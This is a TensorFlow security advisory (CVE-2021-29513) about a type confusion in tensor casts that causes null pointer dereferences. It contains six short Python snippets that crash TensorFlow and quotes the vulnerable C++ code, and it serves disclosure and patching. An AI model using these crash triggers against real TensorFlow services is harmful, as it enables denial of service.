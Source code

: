 ## TFSA-2021-003: Type confusion during tensor casts lead to dereferencing null pointers

### CVE Number
CVE-2021-29513

### Impact
Calling TF operations with tensors of non-numeric types when the operations expect
numeric tensors result in null pointer dereferences.

There are multiple ways to reproduce this, listing a few examples here:

```python
import tensorflow as tf
import numpy as np
data = tf.random.truncated_normal(shape=1,mean=np.float32(20.8739),stddev=779.973,dtype=20,seed=64)
```

```python
import tensorflow as tf
import numpy as np
data =
tf.random.stateless_truncated_normal(shape=1,seed=[63,70],mean=np.float32(20.8739),stddev=779.973,dtype=20)
```

```python
import tensorflow as tf
import numpy as np
data = tf.one_hot(indices=[62,50],depth=136,on_value=np.int32(237),off_value=158,axis=856,dtype=20)
```

```python
import tensorflow as tf
import numpy as np
data = tf.range(start=np.int32(214),limit=660,delta=129,dtype=20)
```

```python
import tensorflow as tf
import numpy as np
data = tf.raw_ops.ResourceCountUpTo(resource=np.int32(30), limit=872, T=3)
```

```python
import tensorflow as tf
import numpy as np

writer_array = np.array([1,2],dtype=np.int32)
writer_tensor = tf.convert_to_tensor(writer_array,dtype=tf.resource)
```

All these examples and similar ones have the same behavior: the [conversion from
Python array to C++
array](https://github.com/tensorflow/tensorflow/blob/ff70c47a396ef1e3cb73c90513da4f5cb71bebba/tensorflow/python/lib/core/ndarray_tensor.cc#L113-L169)
is vulnerable to a type confusion:

```cc
  int pyarray_type = PyArray_TYPE(array);
  PyArray_Descr* descr = PyArray_DESCR(array);
  switch (pyarray_type) {
    ...
    case NPY_VOID:
      // Quantized types are currently represented as custom struct types.
      // PyArray_TYPE returns NPY_VOID for structs, and we should look into
      // descr to derive the actual type.
      // Direct feeds of certain types of ResourceHandles are represented as a
      // custom struct type.
      return PyArrayDescr_to_TF_DataType(descr, out_tf_datatype);
    ...
  }
```

For the tensor types involved in the above example, the `pyarray_type` is
`NPY_VOID` but the `descr` field is such that `descr->field = NULL`. Then
[`PyArrayDescr_to_TF_DataType`](https://github.com/tensorflow/tensorflow/blob/ff70c47a396ef1e3cb73c90513da4f5cb71bebba/tensorflow/python/lib/core/ndarray_tensor.cc#L72-L77)
will trigger a null dereference:

```cc
Status PyArrayDescr_to_TF_DataType(PyArray_Descr* descr,
                                   TF_DataType* out_tf_datatype) {
  PyObject* key;
  PyObject* value;
  Py_ssize_t pos = 0;
  if (PyDict_Next(descr->fields, &pos, &key, &value)) {
    ...
  }
}
```

This is because the Python's `PyDict_Next` implementation would dereference the
first argument.

### Patches
We have patched the issue in GitHub commit
[030af767d357d1b4088c4a25c72cb3906abac489](https://github.com/tensorflow/tensorflow/commit/030af767d357d1b4088c4a25c72cb3906abac489).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360 as well as Ye Zhang and Yakun Zhang of Baidu X-Team.
